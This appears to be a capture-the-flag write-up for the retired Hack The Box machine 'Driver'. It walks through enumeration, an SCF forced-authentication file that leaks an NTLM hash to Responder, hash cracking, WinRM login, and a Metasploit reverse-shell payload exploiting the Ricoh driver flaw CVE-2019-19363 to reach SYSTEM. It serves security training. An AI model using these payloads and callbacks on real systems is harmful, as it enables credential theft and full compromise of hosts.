

# Driver

This is the write-up for the box Driver that got retired at the 26th February 2022.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.106    driver.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/driver.nmap 10.10.11.106
```

```
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The website prompts for _Basic Authentication_ credentials and after trying some default credentials, the username _admin_ and the same password grants access to the page.

The title of the website is _"MFP Firmware Update Center"_ and there is an image of a printer and several menu buttons:



The menu _"Firmware Updates"_ forwards to _fw_up.php_ and allows to upload firmware and explains that it will be manually reviewed:
```
Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.
```

This sounds like a Social Engineering attack to upload a malicious file to gather sensitive information.
A [SCF File Attack](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.scf) can be used to authenticate the user and send their NTLM hash to our client.

Creating SCF file:
```
[Shell]
Command=2
IconFile=\\10.10.14.2\share\test
[Taskbar]
Command=ToggleDesktop
```

Starting **Responder** to gain the NTLM hash:
```
responder -I tun0
```

After uploading and submitting the SCF file on the website, the **Responder** intercepts the NTLM hash for the user _tony_:
```
[SMB] NTLMv2-SSP Client   : 10.10.11.106
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:dc0d5b20ca7576b3:AADBA5C9F6C62F76853487EBA04D8190:010100000000000000A4199(...)
```

Cracking the NTLMv2 hash with **Hashcat**:
```
hashcat -m 5600 driver_tony.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password for the user is:
> liltony

## Checking SMB (Port 445)

With this user account it is possible to enumerate the SMB service on the box:
```
crackmapexec smb 10.10.11.106 -u tony -p liltony --shares
```

There are no shares with permissions for the user, so lets check if **WinRM** access is possible:
```
crackmapexec winrm 10.10.11.106 -u tony -p liltony

WINRM       10.10.11.106    5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

The service seems to be enabled and [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) can be used to login to the box:
```
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration Script** like [winPEAS](https://github.com/carlospolop/PEASS-ng).

There is a **PowerShell** history file which shows that a printer was added:
```
type "C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```
```
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

The printer driver **Ricoh v4.23** has a publicly known Privilege Escalation vulnerability [CVE-2019-19363](https://www.pentagrid.ch/de/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/).

As described in the article, all files in the installation directory can be written by every user:
```
icacls "c:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\*.dll"
```

To exploit the vulnerability, I will use **Metasploit** and for that I have to start a **Meterpreter** session.

Creating reverse shell payload with **Msfvenom**:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=9001 -f exe -o msf.exe
```

Starting the listener on **Metasploit**:
```
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > set LPORT 9001
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > run
```

Executing the payload on the box:
```
*Evil-WinRM* PS C:\ProgramData> .\msf.exe
```

Now a **Meterpreter** session is started and should be migrated to another persistent process:
```
meterpreter > ps
(...)
5076  2620  OneDrive.exe   x86   1    DRIVER\tony  C:\Users\tony\AppData\Local\Microsoft\OneDrive\OneDrive.exe
```
```
meterpreter > migrate 5076
[*] Migrating from 4464 to 5076...
[*] Migration completed successfully.

meterpreter > background
```

Exploiting the printer vulnerability:
```
msf6 > use exploit/windows/local/ricoh_driver_privesc

msf6 exploit(windows/local/ricoh_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/ricoh_driver_privesc) > set SESSION 1
msf6 exploit(windows/local/ricoh_driver_privesc) > set LHOST tun0

msf6 exploit(windows/local/ricoh_driver_privesc) > run
```

Listing sessions to check if the exploit worked:
```
msf6 exploit(windows/local/ricoh_driver_privesc) > sessions -l

Active sessions
===============
  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x86/windows  DRIVER\tony @ DRIVER          10.10.14.2:9001 -> 10.10.11.106:49431 (10.10.11.106)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DRIVER  10.10.14.2:4444 -> 10.10.11.106:49432 (10.10.11.106)
```

Interacting with the privileged session:
```
msf6 exploit(windows/local/ricoh_driver_privesc) > sessions -i 2
```

The vulnerability was successfully exploited and started a **Meterpreter** session as the SYSTEM user!
